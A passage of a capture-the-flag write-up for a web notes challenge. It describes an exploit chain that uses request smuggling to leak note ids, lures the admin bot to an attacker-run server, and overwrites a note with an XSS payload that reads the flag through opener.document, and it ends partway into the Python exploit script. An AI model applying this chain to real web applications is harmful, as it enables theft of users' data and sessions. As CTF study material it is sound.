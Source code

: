This allows us to set the author attribute of a given user's note list to the name of a user controlled by us, allowing us to access it using the `/view` endpoint.

After adding the author attribute to the list of victim notes we can exploit request smuggling on the view feature to get the list of notes, and their respective ids, within the error returned by the server.


### Exploit chain

The complete exploit involves the following steps:
- Require the bot to visit the exploit server and save the username used by the bot
- When the bot visits the exploit server, open the page where the real exploit will be executed (/x in my case) with `window.open` and call `history.back()` to reload the page with the note containing the flag (which we will have to overwrite)
- When /x is visited, leak the id of the note containing the flag and overwrite it with the XSS payload that leaks the flag from `opener.document` and respond with a redirect to the overwritten note to trigger the XSS
- Wait for the flag

## Exploit

The exploit is a python script that creates a server listening on port 3001, you need to set `exploit_url` to the address where the server will be reachable (exposed with a service similar to ngrok).

```py
import requests
import re
import secrets
import json
from flask import Flask, request
from werkzeug import run_simple


class Challenge:

    def __init__(self, host) -> None:
        self.url = 'https://' + host
        self.sess = requests.Session()

    
    def register(self, username):
        PATH = '/register.php'

        # Retrieve CSRF token
        resp = self.sess.get(self.url + PATH)
        self.csrf = resp.cookies['csrf']

        data = {
            'username': username,
            'csrf': self.csrf
        }

        resp = self.sess.post(self.url + PATH, data=data).text
        self.username = username

    def edit(self, id, title, body):
        PATH = '/edit.php?id=' + id

        data = {
            'title': title,
            'body': body,
            'csrf': self.csrf
        }

```